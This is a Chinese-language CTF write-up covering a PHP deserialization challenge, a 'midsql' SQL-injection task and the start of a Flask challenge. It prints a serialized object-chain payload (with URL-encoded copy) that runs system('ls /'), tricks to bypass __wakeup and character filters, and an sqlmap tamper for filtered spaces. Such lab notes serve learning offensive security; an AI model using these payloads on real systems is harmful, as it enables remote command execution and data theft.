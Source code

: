 ​		修改属性数字

原文链接：https://blog.csdn.net/2301_76690905/article/details/133995517

​		原文中是采用了第一种方法，这里我尝试第二种和第三种，看起来也比较简单 

首先是第二种

先说上面代码的结果

```php
O:5:"Start":1:{s:6:"errMsg";O:6:"Crypto":1:{s:3:"obj";O:7:"Reverse":1:{s:4:"func";O:3:"Pwn":1:{s:3:"obj";O:3:"Web":2:{s:4:"func";s:6:"system";s:3:"var";s:4:"ls /";}}}}}
O%3A5%3A%22Start%22%3A1%3A%7Bs%3A6%3A%22errMsg%22%3BO%3A6%3A%22Crypto%22%3A1%3A%7Bs%3A3%3A%22obj%22%3BO%3A7%3A%22Reverse%22%3A1%3A%7Bs%3A4%3A%22func%22%3BO%3A3%3A%22Pwn%22%3A1%3A%7Bs%3A3%3A%22obj%22%3BO%3A3%3A%22Web%22%3A2%3A%7Bs%3A4%3A%22func%22%3Bs%3A6%3A%22system%22%3Bs%3A3%3A%22var%22%3Bs%3A4%3A%22ls+%2F%22%3B%7D%7D%7D%7D%7D
```

​		去掉最后一个中括号

![image-20240316214431905](../typora-user-images/image-20240316214431905.png)

​		修改属性数字，这里说的应该是对象中属性的个数，本来是1，我们修改为2个，可以提前触发异常。

![image-20240316214742057](../typora-user-images/image-20240316214742057.png)

至于字符过滤，可以直接通过通配符进行绕过，比如f*。





### 第三题 midsql ***

<img src="../typora-user-images/image-20240316215022015.png" alt="image-20240316215022015" style="zoom:50%;" />

​		sql注入，可以用sqlmap么？

​		sqlmap使用屡次受挫，明明能检测出来是时间盲注，但又说参数id不是注入点，但是事实是注入点就是id，当然由于过滤了空格，所以需要使用注释符号/**/来代替空格的位置，sqlmap也支持这种替换 需要参数 --tamper sapce2comment



### 第四题 flask disk

<img src="../typora-user-images/image-20240319184122719.png" alt="image-20240319184122719" style="zoom: 67%;" />

flask web服务框架，存在漏洞，disk是什么，磁盘？ 运行在5000端口上

打开靶机

<img src="../typora-user-images/image-20240319184318080.png" alt="image-20240319184318080" style="zoom:67%;" />

第一个list files进去是显示app.py文件的详细信息，应该就是当前目录的文件吧，也说明确实是flask

第二个是一个上传文件处，还没怎么尝试

第三个是一个控制台
